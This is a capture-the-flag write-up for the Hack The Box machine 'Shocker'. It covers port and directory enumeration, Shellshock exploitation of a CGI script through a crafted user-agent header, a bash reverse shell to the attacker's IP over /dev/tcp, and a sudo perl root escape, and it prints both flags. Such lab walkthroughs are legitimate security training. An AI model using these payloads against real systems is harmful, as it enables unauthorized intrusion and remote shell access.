

# Shocker - 10.10.10.56

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.56 
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 22:13 EDT
Nmap scan report for 10.10.10.56
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site does not have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.91 seconds
```

The Ubuntu version is most likely **Xenial**, source: [https://packages.ubuntu.com/search?keywords=apache2](https://packages.ubuntu.com/search?keywords=apache2)


## Gobuster

```bash
gobuster dir -t 30 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.56 -o log/gobuster.out 
```


The directory **/cgi-bin/** is used when apache gives a certain tasks to a scripting language such as Bash, Python.

The status 403 just means that the directory is present but the attacker does not have access to it.


This indicates that a shellshock attack can be used, given the name of the machine is also shocker.

```bash
gobuster dir -t 30 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.56/cgi-bin -x sh,py,txt,pl -o log/gobuster_cgi-bin.out
```

Even if an attacker cannot list the contents of the **/cgi-bin/** directory, the files can still be accessed if the name of the file is known.

Gobuster is being ran with several extensions to find if there are any files present. 


The file **user.sh** is found in the **/cgi-bin/** directory. On going to the file, the attacker is prompted to download dialog.


The content of **user.sh** looks to be the output of the bash command **uptime**


# Exploitation

## Shellshock

### **Vulnerability Explanation:**

Shellshock, also known as Bashdoor, is a family of security bugs in the  widely used Unix Bash shell, the first of which was disclosed on 24  September 2014. Many Internet-facing services, such as some web server  deployments, use Bash to process certain requests, allowing an attacker  to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

source: [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

Upon testing a shellshock exploitation payload, it is concluded the web server is **vulnerable to the shellshock attack**. 

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo I was here'" "http://10.10.10.56/cgi-bin/user.sh"
```


### Getting a reverse shell

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash 
# make the server connect back to the attacker using shellshock payload with bash reverse shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.23/8888 0>&1'" "http://10.10.10.56/cgi-bin/user.sh" 
```


A reverse shell is obtained as the user **shelly**. 


### User.txt

**User.txt** can be found in the home directory of **shelly**.


> user.txt: 4ddc9c1abd1d367712b3dd434eaf1a9b

## Privilege Escalation to Root

### Root.txt

The user shelly can execute perl as root

```bash
sudo -l
```

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```


### **Vulnerability Explanation:**

Going to [gtfobins](https://gtfobins.github.io/gtfobins/), and searching for **perl**, it can be found that, perl can be used to spawn a shell.
Running perl as root, the attacker can break out from the restricted environment.

source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)



```bash
sudo -l
sudo /usr/bin/perl -e 'exec "/bin/bash";'
whoami
```


the **root.txt** file is always located in **/root/**


> root.txt: 8d54789661e7e922780f49e1e2bfded1